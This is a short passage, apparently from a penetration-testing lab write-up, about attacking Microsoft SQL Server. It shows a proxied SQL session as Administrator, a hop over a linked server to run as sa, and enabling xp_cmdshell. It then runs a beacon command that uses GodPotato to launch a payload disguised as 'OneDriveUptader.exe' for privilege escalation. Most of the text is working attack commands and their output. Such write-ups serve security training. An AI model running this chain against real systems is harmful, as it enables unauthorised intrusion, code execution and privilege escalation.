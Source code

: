     [proxychains] Strict chain  ...  127.0.0.1:1080  ...  CYWEBDW:1433  ...  OK
    [*] Encryption required, switching to TLS
    [*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
    [*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
    [*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
    [*] INFO(CYWEBDW\SQLEXPRESS): Line 1: Changed database context to 'master'.
    [*] INFO(CYWEBDW\SQLEXPRESS): Line 1: Changed language setting to us_english.
    [*] ACK: Result: 1 - Microsoft SQL Server (130 15161) 
    [!] Press help for extra shell commands
    SQL (CYWEBDW\Administrator  dbo@master)>

Lets jump Link and enable_xp_cmdshell

    SQL (CYWEBDW\Administrator  dbo@master)> use_link [m3sqlw.m3c.local]
    SQL >[m3sqlw.m3c.local] (sa  dbo@master)> enable_xp_cmdshell

There is also ImperSonatePrivilege so lets grab as shell admin now.


    [11/27 11:54:09] beacon> execute-assembly /home/elliot/Documents/cybernetics/godpotato.exe -cmd C:\Windows\Tasks\OneDriveUptader.exe

coming soon other methods...